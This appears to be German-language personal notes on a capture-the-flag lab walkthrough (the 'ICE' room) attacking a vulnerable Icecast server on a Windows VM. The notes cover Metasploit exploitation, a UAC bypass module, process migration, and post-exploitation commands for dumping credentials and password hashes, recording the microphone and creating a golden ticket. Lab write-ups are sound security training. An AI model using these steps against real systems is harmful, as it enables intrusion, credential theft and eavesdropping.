

Launching scan against target machine.
Icecast wird auf Port 8000 ausgeführt
NMAP identifiziert DARK-PC als Hostnamen für den Computer
Für Antworten der Nummern #1 und #2 des Task 3 des Rooms ICE braucht man folgende Liste https://www.cvedetails.com/vulnerability-list/vendor_id-693/product_id-1194/Icecast-Icecast.html
Search Icecast
Returnt alle target exploits für den Zielcommand (ICECAST)
Nachdem wir das module ice zur Verwedung gewählt haben (use icecast / use 0) geben wir uns mit show options die Optionen des Moduls ausgeben. Hierbei ist RHOSTS das einzig leere Feld, welches noch nicht gesetzt ist. (RHOST ist die deployte VM (10.10.79.188))
getuid
Der Icecast Prozess wurde von dem User Dark ausgeführt.
Sysinfo
Returnt Systeminfos
Background
Um den jetztig laufenden Prozess in den Background geben
Dann wird mit
use exploit/windows/local/bypassuac_eventvwr
der exploit gesetzt.
Nachdem wir uns die options angesehen haben wird die Session mit
set session 1
die Session gesetzt.
Run Options
Uns fällt auf, dass der LHOST noch falsch ist (sollte ip von Openvpn Verbindung sein)
Ip addr Set LHOST IP Run Sessions 2
Die Session id wird beim run-Befehl ausgegeben
Mit dem Befehl "getprivs" können wir nun überprüfen, ob wir die Berechtigungen erweitert haben.

Mit
Ps
werden die Prozesse aufgelistet.
Mit
migrage -N spoolsv.exe
migriert man zu diesem Prozess
creds_all
listet alle Anmeldedaten auf
Mit welchem Befehl können wir alle auf dem System gespeicherten Passwort-Hashes sichern?
Mit
hashdump
Wie wäre es, wenn wir von einem am System angeschlossenen Mikrofon aufnehmen wollten?
Record_mic
Golden_ticket_create
Erstellt ein golden Ticket, mit dem wir uns überall problemlos authentifizieren können.